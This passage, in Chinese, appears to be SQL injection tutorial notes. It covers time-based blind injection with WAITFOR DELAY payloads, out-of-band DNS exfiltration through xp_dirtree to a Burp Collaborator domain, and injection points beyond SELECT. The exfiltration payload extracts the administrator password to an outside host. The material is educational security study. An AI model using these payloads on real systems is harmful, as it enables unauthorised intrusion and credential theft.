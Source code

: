 #### 时间盲注

在不回显的时候，通常会使用时间盲注。通过条件是否成立来影响HTTP请求的响应时间。

这个方法因使用的数据库类型的不同而不同。在Microsoft SQL Server中，下面的payload可以用来实现时间盲注

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
```

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

第一个payload不会触发延迟，第二个则会触发延迟。

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

#### 带外 (OAST)

加入网站执行SQL查询是异步执行的。网站在原本的线程处理用户的请求，另一个线程使用tracking cookie来执行SQL查询。因为网站的响应不会回显，也不会因查询而花费时间，所以上述方法都失效。

此时通常利用盲注去使服务器与out-of-band (OAST)网络进行交互。

可以使用多种网络协议实现这一点，通常最有效的是DNS服务，很多网站允许DNS的自由进出，它对它们的正常运行至关重要。

触发DNS查询的方法因数据库类型的不同而不同。在Microsoft SQL Server上，下面的payload用于在指定域名进行DNS查询

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

确定来触发带外交互的方法后，可以开始拿数据了

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

因为带外成功的可能性很大并且能直接拿数据，所以其在盲注中是一个非常强大的方法。即使其他盲注也可是可行的，带外也可以是一个优先考虑的选项。

### 除了SELECT的SQL注入

大多数SQL注入漏洞出现在`SELECT`查询的`WHERE`子句中。理论上，SQL注入漏洞不仅出现在`SELECT`语句中。出现SQL注入漏洞的常见的其他位置分别是

- `UPDATE`，在更新的值或者`WHERE`子句中
- `INSERT`，在插入的值中
- `SELECT`，在表或列的名称中
- `SELECT`，在`ORDER BY`子句中

### 不同上下文的SQL注入

攻击者可以使用任何会被网站带入SQL语句处理的可控输入来进行SQL注入攻击。例如一些网站会接收JSON或XML格式的输入并使用它来查带入SQL语句。

不同的格式甚至可以提供混淆payload的方法来绕过网站的防御机制。

### 二次注入
